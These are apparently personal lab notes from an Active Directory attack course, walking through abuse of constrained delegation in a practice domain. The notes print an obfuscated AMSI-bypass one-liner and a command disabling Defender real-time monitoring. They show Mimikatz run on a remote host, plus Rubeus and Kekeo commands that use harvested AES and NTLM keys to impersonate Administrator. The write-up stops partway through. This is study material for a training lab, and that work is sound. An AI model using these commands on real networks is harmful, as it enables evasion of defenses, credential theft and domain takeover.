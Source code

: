 # 👨‍✈️ Exploit Constrained Delegation and execute privileged operations

We are going to start bu enumerating users with constrained delegation ->

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth 
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We already have secrets of websvc from dcorp-admisrv machine.</p></figcaption></figure>

We can either use Kekeo or Rubeus to abuse that.

Let's start with rubeus -> First we need to encode "s4u" with Argsplit

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation" %}

Since i'm not very meticulous, i didn't note websvc's secrets so i need to do it again ->

```
PS C:\AD\Tools> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
PS C:\AD\Tools> . .\PowerView.ps1
PS C:\AD\Tools> . .\PowerUp.ps1
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student613\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
[dcorp-adminsrv]: PS C:\Users\student613\Documents> cd 'C:\Program Files\'
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7</p></figcaption></figure>

Now let's launch the Rubeus with s4u encoded:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

{% hint style="warning" %}
in the course there's an error on the server name that is dcorpmssql and not dcorp-mssql
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>just checking if it's all good</p></figcaption></figure>

And now we can access dcorp-mssql:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we're going to abuse Constrained Delegation using websvc with Kekeo

Let's  use the tgt::ask module from kekeo to request a TGT from websvc. Note that we are using NTLM hash of websvcs here just to show NTLM hash can be used too:

```
cd .\kekeo\x64
.\kekeo.exe 
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, let's use this TGT and request a TGS. Note that we are requesting a TGS to access cifs/dcorp-mssql as the domain administrator - Administrator ->

```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can inject the ticket in current session to use it

(will finish kekeo later)

Now we're going to abuse Constrained Delegation using dcorp-adminsrv with Rubeus

We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine

